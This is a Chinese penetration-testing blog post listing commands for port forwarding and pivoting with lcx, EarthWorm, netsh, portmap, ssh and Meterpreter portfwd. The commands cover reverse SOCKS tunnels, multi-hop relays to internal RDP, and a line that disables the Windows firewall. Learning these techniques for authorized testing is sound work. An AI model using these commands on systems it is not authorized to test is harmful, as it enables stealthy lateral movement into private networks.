 ```yaml
---
title: "常见的端口转发方法"
date: 2019-06-21T00:00:00+08:00
draft: false
tags: ['port','socks']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


利用 lcx ew netsh portmap ssh portfwd 等工具进行端口转发

<!--more-->

## lcx

```
lcx.exe -listen 8888 1234
lcx.exe -slave 192.168.1.100 8888 127.0.0.1 3389
```

## ew

### 正向 socks 代理

```
ew.exe -s ssocksd -l 1080
```

### 反向 socks 代理

```
ew.exe -s rcsocks -l 10080 -e 8888
ew.exe -s rssocks -d 192.168.1.100 -e 8888
```

### 端口转发

```
ew.exe -s lcx_listen -l 1234 -e 8888
ew.exe -s lcx_slave -d 192.168.1.100 -e 8888 -f 127.0.0.1 -g 3389
```

### 多级级联

```
a: 192.168.1.100
b: 192.168.1.101,10.0.0.1
c: 10.0.0.2,172.16.0.1
d: 172.16.0.2
```

```
a: ew.exe -s lcx_listen -l 1234 -e 8888
b: ew.exe -s lcx_slave -d 192.168.1.100 -e 8888 -f 10.0.0.2  -g 9999
c: ew.exe -s lcx_tran -l 9999 -f 172.16.0.2 -g 3389
```

## netsh

原理同 ew 中的 `lcx_tran`

重启后依然生效.

```
netsh interface portproxy set v4tov4 listenaddress=192.168.1.101 listenport=1234 connectaddress=10.0.0.1 connectport=3389
```

删除.

```
netsh interface portproxy delete v4tov4 listenaddress=192.168.1.101 listenport=1234
```

关闭防火墙.

```
netsh firewall set opmode disabled
```

## portmap

垃圾.

listen

```
./portmap -m 2 -p1 1234 -p2 8888
```

slave

```
./portmap -m 3 -h1 192.168.1.100 -p1 8888 -h2 127.0.0.1 -p2 3389
```

tran

```
./portmap -m 1 -p1 1234 -h2 127.0.0.1 -p2 3389
```

## ssh

```
a: 192.168.1.100
b: 192.168.1.101,10.0.0.1
c: 10.0.0.2
```

### 本地端口转发

```
a: ssh -CfNg -L 1234:10.0.0.2:3389 root@192.168.1.101
```

a 上 1234 端口的数据通过 b 被转发到 c 上的 3389 端口.

### 远程端口转发

```
a: ssh -CfNg -R 1234:192.168.1.100:3389 root@192.168.1.101
```

b 的 1234 端口的数据被转发到 a 上的 3389 端口, c 作为客户端访问 b.

### socks 代理

```
a: ssh -qTfnN -D 1080 192.168.1.101
```

a 上架设 socks 代理, 端口 1800, 数据通过 b 转发到内网的任何一台机器上.

## portfwd

```
portfwd add -l 1234 -r 192.168.1.100 -p 3389
```

删除.

```
portfwd del -l 1234
```

## reDuh reGeorg Tunna

略.